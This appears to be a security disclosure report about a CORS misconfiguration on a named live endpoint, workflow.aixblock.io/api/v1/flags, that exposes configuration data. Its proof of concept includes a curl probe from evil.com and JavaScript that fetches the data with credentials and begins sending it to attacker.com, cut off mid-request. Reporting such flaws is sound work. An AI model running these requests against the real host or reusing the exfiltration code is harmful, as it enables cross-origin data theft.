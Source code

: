 # 🚨 HIGH: CORS Misconfiguration with Information Disclosure

## **📊 SUMMARY**
- **Severity**: High (CVSS 7.5)
- **Asset**: workflow.aixblock.io/api/v1/flags (Critical)
- **Vulnerability**: CORS misconfiguration allowing cross-origin access to sensitive data
- **Impact**: Cross-origin data theft, credential exposure, system compromise

## **🔍 TECHNICAL DETAILS**

### **Affected Components**
- **Primary**: `https://workflow.aixblock.io/api/v1/flags` - Configuration endpoint
- **Impact**: Sensitive configuration data accessible from any origin

### **Root Cause**
The configuration endpoint has CORS misconfiguration with wildcard origin policy, allowing any malicious website to access sensitive configuration data including Auth0 credentials and system details.

### **Attack Vector**
Any malicious website can make cross-origin requests to steal sensitive configuration data, including authentication credentials and internal system information.

## **💥 PROOF OF CONCEPT**

### **1. CORS Configuration Test**
```bash
curl -s "https://workflow.aixblock.io/api/v1/flags" \
  -H "Origin: https://evil.com" \
  -H "Access-Control-Request-Method: GET" \
  -X OPTIONS \
  -v
```

### **2. Expected CORS Headers**
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Origin, Content-Type, Accept, Authorization
access-control-expose-headers: *
```

### **3. Cross-Origin Data Theft**
```javascript
// Malicious website can steal configuration data
fetch('https://workflow.aixblock.io/api/v1/flags', {
    method: 'GET',
    credentials: 'include'
})
.then(response => response.json())
.then(data => {
    // Attacker now has complete system configuration
    console.log('Stolen Auth0 credentials:', data.AUTH0_DOMAIN, data.AUTH0_APP_CLIENT_ID);
    console.log('Stolen SAML config:', data.SAML_AUTH_ACS_URL);
    console.log('Stolen webhook endpoints:', data.WEBHOOK_URL_PREFIX);
    console.log('Stolen system limits:', data.FLOW_RUN_MEMORY_LIMIT_KB);
    
    // Send stolen data to attacker's server
    fetch('https://attacker.com/steal', {
```